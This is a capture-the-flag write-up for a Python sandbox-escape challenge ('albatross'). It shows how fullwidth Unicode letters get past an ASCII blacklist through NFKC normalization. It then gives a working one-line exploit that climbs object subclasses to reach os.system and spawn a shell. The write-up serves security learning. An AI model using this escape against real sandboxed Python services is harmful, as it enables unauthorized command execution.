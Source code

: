 # albatross (11 solves)

Source: [albatross.py](./albatross.py)

_Note: I only fully solved this chall after the CTF ended_

We have to read the flag file in only 102 bytes without any ASCII letters or quotes. First, we need to defeat the blacklist. Google tells us that python identifiers use NFKC unicode normalization, meaning that we can use other variations to substitute for ASCII letters, such as fullwidth letters. This function will convert ASCII letters to fullwidth:

```python
import string
blacklist = string.ascii_letters + '"\' '
def clean(s):
	return "".join(chr(ord(c) + 0xfee0) if c in blacklist else c for c in s)
```

Next, we need to defeat the actual pyjail. The standard pyjail method uses `[].__class__.mro()[1].__subclasses__()` in order to get all the subclasses of the `object` class. One of these classes happens to be `os._wrap_close`. We can use it to access the `os` module through `[].__class__.mro()[1].__subclasses__()[127].close.__globals__`. In order to access the `system` function, we can convert the `__globals__` dictionary into a list of values and find the index of `system`: `[*[].__class__.mro()[1].__subclasses__()[127].close.__globals__.values()][42]`. In order to get the string `"sh"` we can slice the list docstring: `[].__doc__[91:97:5]`. Putting this all together gets us our final exploit.

Final Exploit: `[*[].__class__.mro()[1].__subclasses__()[127].close.__globals__.values()][42]([].__doc__[91:97:5])`
(after passing through the `clean` function)

Flag: `flag{SH\*T\*I_h0pe_ur_n0t_b1c...\_if_y0u\*@r3,\_th1\$\_isn't_th3_fl@g}`
